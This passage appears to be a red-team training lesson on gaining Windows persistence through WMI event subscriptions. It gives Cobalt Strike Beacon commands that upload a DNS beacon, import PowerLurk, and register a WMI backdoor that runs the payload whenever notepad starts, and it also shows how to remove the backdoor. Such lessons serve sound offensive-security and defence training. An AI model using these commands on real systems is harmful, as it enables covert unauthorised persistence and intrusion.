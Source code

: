 Persistence via WMI events can be achieved by leveraging the following three classes:

- EventConsumer
- EventFilter
- FilterToConsumerBinding

  

An EventConsumer is the action that we want to perform - in this case, to execute a payload.  This can be via OS commands (such as a PowerShell one-liner) or VBScript.  An EventFilter is a trigger that we can act upon.  Any arbitrary WMI query can be used as a filter which provides practically unlimited options.  These can include when a particular process starts, when a user logs in, when a USB device is inserted, any specific time of day or on a timed interval.  The FilterToConsumerBinding simply links an EventConsumer and EventFilter together.

  

[PowerLurk](https://github.com/Sw4mpf0x/PowerLurk) is a PowerShell tool for building these WMI events.  In this example, I will upload a DNS payload into the Windows directory, import PowerLurk.ps1 and create a new WMI event subscription that will execute it whenever notepad is started.
```
beacon> cd C:\Windows
beacon> upload C:\Payloads\dns_x64.exe
beacon> powershell-import C:\Tools\PowerLurk.ps1
beacon> powershell Register-MaliciousWmiEvent -EventName WmiBackdoor -PermanentCommand "C:\Windows\dns_x64.exe" -Trigger ProcessStart -ProcessName notepad.exe
```
  

You can view these classes afterwards using `Get-WmiEvent -Name WmiBackdoor`.  The _CommandLineTemplate_ for the EventConsumer will simply be `C:\Windows\dns_x64.exe`; and query for the EventFilter will be `SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='notepad.exe'`.

Open notepad on Workstation 2 and the DNS Beacon will appear.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/523/658/5e8/wmi-sub.png)

  

The backdoor can be removed with `Get-WmiEvent -Name WmiBackdoor | Remove-WmiObject`.